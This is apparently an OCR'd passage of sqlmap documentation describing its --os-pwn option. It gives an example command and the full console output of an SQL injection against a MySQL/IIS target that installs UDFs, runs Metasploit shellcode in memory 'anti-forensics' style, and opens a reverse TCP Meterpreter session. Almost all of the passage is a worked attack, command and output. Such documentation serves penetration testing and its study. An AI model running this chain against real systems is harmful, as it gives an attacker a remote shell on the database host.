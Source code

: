 These techniques are detailed in the white paper [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857) and in the slide deck [Expanding the control over the operating system from the database](http://www.slideshare.net/inquis/expanding-the-control-over-the-operating-system-from-the-database).\
Example against a MySQL target:\
`$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?\`\
`id=1" --os-pwn --msf-path /software/metasploit`

`[...]`\
`[hh:mm:31] [INFO] the back-end DBMS is MySQL`\
`web server operating system: Windows 2003`\
`web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0`\
`back-end DBMS: MySQL 5.0`\
`[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system`\
`[hh:mm:31] [INFO] the back-end DBMS operating system is Windows`\
`how do you want to establish the tunnel?`\
`[1] TCP: Metasploit Framework (default)`\
`[2] ICMP: icmpsh - ICMP tunneling`\
`>`\
`[hh:mm:32] [INFO] testing if current user is DBA`\
`[hh:mm:32] [INFO] fetching current user`\
`what is the back-end database management system architecture?`\
`[1] 32-bit (default)`\
`[2] 64-bit`\
`>`\
`[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist`\
`[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist`\
`[hh:mm:33] [INFO] detecting back-end DBMS version from its banner`\
`[hh:mm:33] [INFO] retrieving MySQL base directory absolute path`\
`[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file`\
`[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file`\
`how do you want to execute the Metasploit shellcode on the back-end database und`\
`erlying operating system?`\
`[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)`\
`[2] Stand-alone payload stager (file system way)`\
`>`\
`[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode`\
`which connection type do you want to use?`\
`[1] Reverse TCP: Connect back from the database host to this machine (default)`\
`[2] Reverse TCP: Try to connect back from the database host to this machine, on`\
`all ports`\
`between the specified and 65535`\
`[3] Bind TCP: Listen on the database host for a connection`\
`>`\
`which is the local address? [192.168.136.1]`\
`which local port number do you want to use? [60641]`\
`which payload do you want to use?`\
`[1] Meterpreter (default)`\
`[2] Shell`\
`[3] VNC`\
`>`\
`[hh:mm:40] [INFO] creation in progress ... done`\
`[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, p`\
`lease wait..`
